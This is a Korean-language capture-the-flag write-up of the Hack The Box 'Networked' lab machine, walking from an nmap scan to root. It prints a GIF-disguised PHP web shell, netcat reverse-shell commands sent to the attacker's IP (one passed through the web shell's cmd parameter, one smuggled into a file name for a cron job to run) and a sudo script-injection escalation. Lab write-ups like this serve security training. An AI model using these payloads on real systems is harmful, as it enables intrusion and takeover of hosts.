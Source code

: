 ```yaml
---
layout: article
title: "Hack The Box: Networked write-up"
excerpt: "Hack The Box: Networked write-up"
date: 2019-09-24 18:23:00 +0900
author: SystemaHacker
categories: [HackTheBox]
tags: [HackTheBox, Write-Up, Security, Linux]
permalink: /hackthebox/networked
---
```


## 개요

![Hack The Box Networked card info](/assets/hackthebox/networked/networked.png)

|||
|---|---|
|OS|Linux|
|Difficulty|Easy|
|Points|20|
|Release|24 Aug 2019|
|IP Address|10.10.10.146|

---
## 조사
열려있는 포트와 실행 중인 서비스를 식별하기 위해 주어진 `IP` 주소를 이용하여 `nmap`을 이용한 네트워크 스캔을 수행한다.   

```
attacker$ nmap -A -v -sV --script vuln 10.10.10.146
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-enum:
|   /backup/: Backup folder w/ directory listing
|   /icons/: Potentially interesting folder w/ directory listing
|_  /uploads/: Potentially interesting folder w/ directory listing
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
443/tcp closed https
Nmap done: 1 IP address (1 host up) scanned in 63.85 seconds
```

22번 포트: `SSH 서버`   
80번 포트: `Apache 웹 서버`에서 아래 디렉터리들이 발견되었다.   
 - `/backup/`
 - `/icons/`
 - `/uploads/`

---
## 취약점 조사
[http://10.10.10.146/backup](http://10.10.10.146/backup) 주소로 접속하면 `backup` 압축파일을 얻을 수 있다.   

압축 해제 후 나온 `PHP` 코드를 분석하였다.   

```
-rw-r--r--  1 attacker attacker  229 Jul  9 20:33 index.php
-rw-r--r--  1 attacker attacker 2001 Jul  2 20:38 lib.php
-rw-r--r--  1 attacker attacker 1871 Jul  2 21:53 photos.php
-rw-r--r--  1 attacker attacker 1331 Jul  2 21:45 upload.php
```

소스코드 분석 결과 [upload.php](/assets/hackthebox/networked/upload.php)에서 업로드 파일 종류를 검증하는 코드에 취약점이 있음을 확인할 수 있다.

---
## PHP Web shell 업로드 
[upload.php](/assets/hackthebox/networked/upload.php) 이미지 업로드 취약점을 토대로 PHP Web shell을 작성한다.   
코드 이전에 `GIF89a?` 를 입력함으로써 [이것이 이미지 파일이라고 인식시켜 악성코드를 업로드](https://asec.ahnlab.com/ko/18127/)할 수 있다.

[phpshell.php](/assets/hackthebox/networked/phpshell.php)
```
GIF89a?
<?php
system( $_GET[cmd] );
?>
```

파일 확장자를 `.gif`로 변경 후 [http://10.10.10.146/upload.php](http://10.10.10.146/upload.php) 페이지에서 업로드한다.

<!--
업로드 페이지에서 이미지를 업로드 하는 모습.   
[http://10.10.10.146/upload.php](http://10.10.10.146/upload.php)
![업로드 페이지에서 이미지를 업로드 하는 모습.](/assets/hackthebox/networked/1.png)   

업로드 페이지에서 업로드 완료 메시지가 뜬 모습.   
![업로드 페이지에서 업로드 완료 메시지가 뜬 모습.](/assets/hackthebox/networked/2.png)   

갤러리 페이지에서 악성코드가 업로드된 것을 확인하는 모습.   
[http://10.10.10.146/photos.php](http://10.10.10.146/photos.php)
![갤러리 페이지에서 악성코드가 업로드된 것을 확인하는 모습.](/assets/hackthebox/networked/3.png)   
-->

---
## 웹 권한 탈취
```
attacker$ nc -lvp 2021
```

웹 권한의 Shell을 탈취하기 위해 공격자의 PC에서 `nc`를 이용하여 `2021` 포트를 열고, Web shell이 업로드된 `URL`에 `GET` 요청으로 `cmd` 파라미터에 Reverse Shell을 연결하는 명령을 전달한다. 

```
http://10.10.10.146/uploads/10_10_12_226.gif?cmd=nc 10.10.12.226 2021 -c bash
```
   
```
Connection from 10.10.10.146:41584
```

공격자 PC에 Reverse Shell이 연결되었다.

```
apache$ whoami
apache
```

`apache` 권한의 Shell을 탈취하였다.   

---
## guly 권한 상승
`guly` 권한을 탈취하기 위해 `/home/guly` 디렉터리를 살펴보자.   
```
apache$ ls -al /home/guly
-r--r--r--. 1 root root 782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root  44 Oct 30  2018 crontab.guly
-r--------. 1 guly guly  33 Oct 30  2018 user.txt
```

[check_attack.php](/assets/hackthebox/networked/check_attack.php), [crontab.guly](/assets/hackthebox/networked/crontab.guly) 파일을 추가로 발견하였다.

[crontab.guly](/assets/hackthebox/networked/crontab.guly)에 의해 지정된 매 3분마다 [check_attack.php](/assets/hackthebox/networked/check_attack.php)가 실행된다.   

[check_attack.php](/assets/hackthebox/networked/check_attack.php) 코드 분석 결과 `/var/www/html/uploads/` 디렉터리에 `;`를 포함한 이름의 파일을 생성하면 원하는 명령을 실행할 수 있다.   

```
apache$ echo "" > ./";nc 10.10.12.226 2022 -c bash"
```

파일 이름이 잘 설정되었는지 확인.   
```
apache$ ls -al
drwxrwxrwx. 2 root   root     266 Sep 13 06:38 .
drwxr-xr-x. 4 root   root     103 Jul  9 13:30 ..
-rw-r--r--  1 apache apache    40 Sep 13 06:26 10_10_12_226.php.gif
-rw-r--r--. 1 root   root    3915 Oct 30  2018 127_0_0_1.png
-rw-r--r--. 1 root   root    3915 Oct 30  2018 127_0_0_2.png
-rw-r--r--. 1 root   root    3915 Oct 30  2018 127_0_0_3.png
-rw-r--r--. 1 root   root    3915 Oct 30  2018 127_0_0_4.png
-rw-r--r--  1 apache apache     1 Sep 13 06:38 ;nc 10.10.12.226 2022 -c bash
-r--r--r--. 1 root   root       2 Oct 30  2018 index.html
```
3분 뒤 [check_attack.php](/assets/hackthebox/networked/check_attack.php)가 실행되면 공격자 PC의 `2022`번 포트로 `guly` 유저 권한의 Shell이 연결된다.   

```
Connection from 10.10.10.146:36230
```

```
guly$ whoami
guly
```

`guly` 유저 권한을 탈취하였다.   

User flag 확인   
```
guly$ cat user.txt
```

---
## Root 권한 상승
`sudo -l`명령으로 `root` 권한으로 실행할 수 있는 파일들을 탐색해 보았다.   
```
guly$ sudo -l
Matching Defaults entries for guly on networked:
User guly may run the following commands on networked:
(root) NOPASSWD: /usr/local/sbin/changename.sh
```

비밀번호 없이 실행할 수 있는 `root` 권한 파일을 발견하였다.  
[changename.sh](/assets/hackthebox/networked/changename.sh)


```
guly$ cat /usr/local/sbin/changename.sh
#!/bin/bash -p
cat &gt; /etc/sysconfig/network-scripts/ifcfg-guly &lt;&lt; EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp=&quot;^[a-zA-Z0-9_\ /-]+$&quot;

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
	echo &quot;interface $var:&quot;
	read x
	while [[ ! $x =~ $regexp ]]; do
		echo &quot;wrong input, try again&quot;
		echo &quot;interface $var:&quot;
		read x
	done
	echo $var=$x &gt;&gt; /etc/sysconfig/network-scripts/ifcfg-guly
done

/sbin/ifup guly0
```

입력된 값이 검증되지 않고 실행되는 취약점을 이용해 `root` 권한의 Shell을 실행할 수 있다.   
```
guly$ sudo /usr/local/sbin/changename.sh
interface NAME:
asd /bin/bash
interface PROXY_METHOD:
asd
interface BROWSER_ONLY:
asd
interface BOOTPROTO:
asd
```

```
root$ whoami
root
```

`root` 권한을 탈취하였다.   
Root flag 확인   
```
root$ cat /root/root.txt
```
